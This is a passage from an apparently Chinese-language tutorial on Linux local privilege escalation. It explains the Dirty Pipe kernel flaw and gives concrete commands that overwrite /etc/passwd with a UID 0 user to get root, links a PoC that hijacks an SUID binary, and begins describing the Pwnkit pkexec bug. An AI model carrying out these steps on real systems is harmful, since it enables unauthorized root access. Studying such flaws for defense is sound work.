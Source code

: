 > Linux Kernel 5.16.11, 5.15.25, 5.10.102 中修复

`splice()` 允许我们将 Linux 管道指向内存中的一页，而这一页上原本的内容可以是一个已打开的只读文件的内容。这样一来，只要向管道输入恶意数据，就可以达到修改任意一个只读文件内容的效果。但通常内核不允许我们通过管道覆盖页的内容。

幸运的是，在 [Linux Kernel v4.9(2016)](https://github.com/torvalds/linux/commit/241699cd72a8489c9446ae3910ddd243e9b9061b) 中，管道在创建时可以标记任意的 flag，在当时这并没有造成漏洞；但到了 [Linux Kernel 5.8(2020)](https://github.com/torvalds/linux/commit/f6dd975583bd8ce088400648fd9819e4691c8958)，一个新的 flag `PIPE_BUF_FLAG_CAN_MERGE` 被引入，这个 flag 会让内核允许一个页上的内容被覆盖。这样最终就使得我们可以写入任意一个我们有权限读取的文件。

如何利用该漏洞提权呢？一个简单的方法是修改 `/etc/passwd`。尽管现在用户密码哈希都存储在 `/etc/shadow`，大部分 Linux 版本还是会先检查 `/etc/passwd` 中是否存在密码哈希。这样只要写入一行 UID 和 GID 均为 `0` 的新用户条目即可。

首先生成密码哈希：

```bash
$ openssl passwd -6 --salt MERCURY "password"
```

然后拼接成新用户条目：

```
merc:$6$MERCURY$HAa.kH3beVPYs7zbph2nQI0gVs6aew8klRLxfNkgu661DvYM5gytyq9fZkgJpJ2znnS4kFiQigW2ARkOp2U3/.:0:0::/root:/bin/bash
```

接下来我们要覆写文件，由于漏洞不允许我们在文件后追加内容，我们必须挑一个用户来覆盖。但因为密码哈希长度的原因，覆写时有可能会覆盖掉多个用户，因此需要注意选取 offset 避免覆盖掉常用的用户。这里选择覆盖 `games` 用户，因为后面的 `man`、`lp` 用户也不太常用。可以通过 `grep -b` 来确定其 offset。

```bash
$ grep -b games /etc/passwd
189:games:x:5:60:games:/usr/games:/usr/sbin/nologin
```

最后备份 `/etc/passwd` 文件并运行 [exploit](https://dirtypipe.cm4all.com)（注意单引号与换行）：

```bash
$ ./exploit /etc/passwd 189 'merc:$6$MERCURY$HAa.kH3beVPYs7zbph2nQI0gVs6aew8klRLxfNkgu661DvYM5gytyq9fZkgJpJ2znnS4kFiQigW2ARkOp2U3/.:0:0::/root:/bin/bash
> '
```

一个更有趣的漏洞用法是用来覆写一个 SUID 的可执行程序，例如 `su`，向其注入 shellcode 以创建另一个 SUID 可执行文件并执行 `/bin/sh`，最后恢复被覆写的可执行程序。[PoC](https://haxx.in/files/dirtypipez.c)

## Polkit 相关

### Pwnkit（CVE-2021-4034）

主流 Linux 发行版中都已安装了 Polkit 这个 Linux 鉴权工具，它提供了相比 sudo 更细粒度的权限控制机制，其中一个常用的工具就是 pkexec，也就是受该漏洞影响的工具。

这个漏洞是一个典型的数组下标越界漏洞，pkexec 在处理参数时从第 1 个参数开始处理（第 0 个是 pkexec 可执行文件本身）：

```c
for (n = 1; n < (guint) argc; n++)
{
	// ...
}
```
